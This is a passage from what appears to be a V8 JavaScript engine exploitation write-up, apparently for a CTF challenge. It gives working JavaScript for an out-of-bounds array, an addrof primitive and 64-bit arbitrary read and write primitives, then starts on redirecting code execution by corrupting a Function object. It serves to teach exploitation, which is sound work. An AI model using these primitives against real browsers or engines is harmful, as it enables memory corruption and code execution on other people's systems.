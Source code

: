 ```js
/* create an oob array */
let oob = [1.1];
oob.len(1337);

/* flt.elements @ oob[6] */
let flt = [1.1];

/* obj.elements @ oob[15] */
let tmp = {a: 1};
let obj = [tmp];

/* addrof primitive */
function addrof(o) {
  oob[6] = oob[15]; 
  obj[0] = o;
  return (ftoi(flt[0]) & 0xffffffffn) - 1n;
}

/* 64-bit read primitive */
function read(p) {
  let a = ftoi(oob[6]) >> 32n;
  oob[6] = itof((a << 32n) + p - 8n + 1n);
  return ftoi(flt[0]);
}

/* 64-bit write primitive */
function write(p, x) {
  let a = ftoi(oob[6]) >> 32n;
  oob[6] = itof((a << 32n) + p - 8n + 1n);
  flt[0] = itof(x);
}
```

### 3.3. Redirecting Code Execution
Now we can finally move on to the interesting part! How, given that we are in this heap sandbox, can we redirect code execution? Not necessarily to a place we control, but just to any arbitrary location.

Well, maybe it's possible to corrupt a Function object. We can start by creating a function `foo` and printing it's debug information in order to dig around in memory.
```js
const foo = () => {
  return;
}

%DebugPrint(foo);
%SystemBreak();

foo();
```

In the debug information below, we can see that the Function object holds a pointer to some `code` object at an offset of `0x18`. This is where the code metadata must be stored.
